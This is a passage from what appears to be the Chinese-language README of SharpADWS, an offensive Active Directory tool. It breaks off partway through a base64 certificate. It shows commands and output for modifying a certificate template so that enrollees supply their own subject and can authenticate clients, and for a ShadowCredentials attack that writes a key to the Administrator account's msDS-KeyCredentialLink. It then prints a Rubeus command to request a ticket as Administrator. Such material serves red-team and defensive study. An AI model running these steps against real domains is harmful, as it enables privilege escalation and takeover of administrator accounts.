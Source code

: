 ```powershell
         Enrollment Rights          :
                                    : Domain Admins
                                    : Domain Users
                                    : Enterprise Admins
         Object Control Permissions :
             WriteDacl              :
                                    : Domain Admins
                                    : Enterprise Admins
             WriteOwner             :
                                    : Domain Admins
                                    : Enterprise Admins
             WriteProperty          :
                                    : Domain Admins
                                    : Enterprise Admins
                                    : Marcus
                                    : Domain Users
                                    
# ...
```
**需要注意的是，Certify Method 的 `find` 必须依赖于已经通过 Cache Method 建立的映射缓存。**

Certify method 的 `modify` 允许您在拥有对目标模版的写入权限下，修改证书模版的属性，例如开启 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志或启用 Client Authentication：

```powershell
C:\Users\Marcus>SharpADWS.exe Certify -action modify -template User -enrolleeSuppliesSubject -clientAuth

[*] Enable enrollee supplies subject for template User successfully!
[*] Enable client authentication for template User successfully!

```

### Whisker

Whisker method 能够像 [Whisker](https://github.com/eladshamir/Whisker) 一样执行 ShadowCredentials 攻击的生命周期。

Whisker method 的 `list` 能够列出目标账户对象的 `msDS-KeyCredentialLink` 属性值：

```powershell
C:\Users\Marcus>SharpADWS.exe Whisker -action list -target DC01$

[*] List deviced for DC01$:
[*]     DeviceID: c9fdae6b-f6a1-4880-a498-6dc89814e596    Creation Time: 2/13/2024 7:43:49 PM
[*]     DeviceID: ee48b31f-71b1-4821-b21e-1ca28fad2ae9    Creation Time: 2/13/2024 8:06:52 PM
[*]     DeviceID: 80c31faf-8b0b-4af6-8350-22de2d91a4fd    Creation Time: 2/13/2024 8:01:50 PM

```

Whisker method 的 `add` 允许您在拥有写入权限的情况下，为目标账户的 `msDS-KeyCredentialLink` 属性添加一个 Key，以执行 ShadowCredentials 攻击：

```powershell
C:\Users\Marcus>SharpADWS.exe Whisker -action add -target Administrator -cert-pass Passw0rd

[*] Certificate generaged
[*] KeyCredential generated with DeviceID 7d9e0151-5fd2-46d5-ac3d-dce8a71399f2
[*] Updated the msDS-KeyCredentialLink attribute successfully!
[*] You can now run Rubeus with the following syntax:

      Rubeus.exe asktgt /user:Administrator /certificate:MIIJzwIBAzCCCYsGCSqGSIb3DQEHA
      aCCCXwEggl4MIIJdDCCBiUGCSqGSIb3DQEHAaCCBhYEggYSMIIGDjCCBgoGCyqGSIb3DQEMCgECoIIE/
      jCCBPowHAYKKoZIhvcNAQwBAzAOBAjQKx9W/RRiIgICB9AEggTYyQ1jkAw63J4ldeBGctrUhGFPLkIll
      NNTizR2Ah/RW+QS2PjWVqv1N2AgybObllM3qVD2xxVxTQpSNvFsHTmZMCVFg++uknPBA7nVriX2rcTPJ
      bB/K0DANikCdSDXq1ROgIMRx3mpHtCX2Med82O0OJKOhk+S/Zt3K3r3BloSXRJI0YWUitlP3LPFG9DeG
      p1Pox/BL+83NmL9x1hX8ztTPixUlLteNUA5etJzdH0z+yFbqozH7HE1HClYFTanhS0codWpc19QjamWj
      DpmOMthgQlf6V+4kiG9PVyCHB7vzFbEnUcprLIRmlPKZKTEp2swfSKj+TeknccuHePIAtASJav286POp
```